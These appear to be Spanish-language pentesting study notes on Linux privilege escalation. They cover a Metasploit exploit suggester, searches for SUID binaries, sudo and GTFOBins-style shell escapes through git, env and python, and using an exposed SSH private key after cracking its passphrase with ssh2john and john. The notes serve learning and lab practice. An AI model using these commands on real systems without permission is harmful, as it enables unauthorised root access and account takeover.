 
Este escalamiento es únicamente para sistemas operativos Linux

# Metasploit

SI queremos conocer cual puede ser una posible escalada podemos utilizar el siguiente módulo:

```
use post/multi/recon/local_exploit_suggester

set session 1

run
```

Una vez corriendo te mostrará cuales son los posibles módulos de metasploit que pueden servir para poder escalar los privilegios.


-------
# Find all files from a user

If we want to find all files that are own by a specific user we can do the following:

```
find / -type f -user alison 2>/dev/null
```

-------
# SUID

Si queremos ver todos los SUID a los cuales tenemos permiso:

```
find / -perm -4000 2>/dev/null #Find all SUID binaries
```

Página para ver que se puede realizar con ello

https://gtfobins.github.io/

------

# Permisos

Realizar el siguiente comando

```
sudo -l
```

Si se encuentran permisos que se puedan aplicar con sudo aplicar la siguiente extensión al sudo (sudo -u USER): 

```
sudo -u admin git -p help config
```

------
## ENV

Para escalar privilegios sin Sudo:

```
./usr/bin/env /bin/sh -p
```

## Python

Para escalar privilegios sin sudo:

```
/usr/bin/python3.10 -c  'import os; os.execl("/bin/sh","sh","-p")'
```

---

## ID RSA

Si el activo tiene su **ID_RSA** expuesta lo que podemos hacer es logearnos mediante esa clave. El archivo se ve de la siguiente forma 

![[Pasted image 20240718230430.png]]

Asimismo es importante que cuando se guarde la clave se brinden los permisos 600 con el comando `chmod 600 id_rsa`

Para intentar conectarse lo que tienes que realizar es lo siguiente:

```
ssh -i id_rsa kay@10.10.200.0
``` 

Si es que te pide contraseña tendremos que desencriptarla con [[jhon]] que se llama ss2john. Asi que lo que tenemos que hacer es aplicar el siguiente comando: 

```
ssh2john id_rsa > forjohn.txt
```

![[Pasted image 20240718230729.png]]

Lo que hace este comando es guardar el output del ss2john para guardarlo en un archivo aparte, ya que la contraseña no es legible.

Una vez con el archivo apartado podremos correr jhon con una wordlist especial (en este caso rockyou).

```
john --wordlist=rockyou forjohn.txt
```

Si todo sale bien obtendrás la frase secreta para logearte con el otro usuario! :luc_database: